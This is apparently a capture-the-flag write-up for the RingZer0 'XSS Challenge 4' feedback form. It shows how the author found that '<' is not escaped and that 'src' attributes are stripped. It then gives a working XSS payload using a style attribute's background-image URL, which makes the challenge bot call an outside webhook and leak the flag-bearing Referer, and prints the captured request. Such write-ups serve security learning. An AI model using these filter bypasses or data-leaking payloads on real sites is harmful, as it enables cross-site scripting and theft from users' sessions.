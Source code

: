 # XSS Challenge 4 Solutions

The first payload I tried with was
```
abcd"<'
```
and viewing the page source for the response is the following:
```html
<!DOCTYPE html>
<html>
	<head>
		<title>RingZer0 Team Online CTF Challenge</title>
		<link rel="stylesheet"  type="text/css" href="/css/main.css">
	</head>
	<body>
		<header></header>
		<div class="padding"><img src="/imgs/logo.png" /></div>
		<section>
			<br />
      <br />
      Your opinion matters to us again! Write some feedback.<br /><br />
      <form action="" method="post">
        Comment<br />
        <textarea name="comment"></textarea><br />
        <input type="submit" value="submit" />
      </form>
		  <br />abcd\"<\'<br /><br />		</section>
      <div class="pre_footer"></div>
    <footer>RingZer0 Team 2022</footer>
	</body>
</html>
```

Essentially, this is how my payload was reflected in the document:
```html	
<br />abcd\"<\'<br /><br />		</section>	
```
Looks like the double and single quotes were escaped but the `<` was not.
So the next payload I tried with was:
```html
<img src=x onerror=alert(1)>
```
this payload was reflected onto the page like:
```html
<br /> =x deletederror=alert(1)><br /><br />		</section>
```
This was slightly weird as the whole of `<img src` was sanitized out and the `deletederror` attribute was also weird. I had a guess that it was trying to sanitize the `src` attribute out. So I tested the theory with the following payloads:

1.
```html
<img src=x>
```
which was reflected like:
```html
=x>
```
2.
```html
< img src=x>
```
which was reflected like:
```html
<br />< img =x><br /><br />		</section>
```
3. 
```
<embed src=x>
```
which was reflect like:
```html
<br /><embed =x><br /><br />		</section>
```
So other than the first payload which had a weird output, it looked like it's sanitizing the `src` attribute out. 
As a result, I thought to use a similar trick from a previous challenge which meant utilizing `style` attribute instead.

I used the following payload:
```html
<embed style=background-image:url(http://mywebhooklistener.com)>
```
and received the following request from the XSS Bot:
```
GET / HTTP/1.1
Referer: http://127.0.0.1/xss4/bot_endpoint_8z5yTf83br.php?FLAG-[CENSORED]
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: mywebhooklistener.com
```
The flag is in the bag! :) 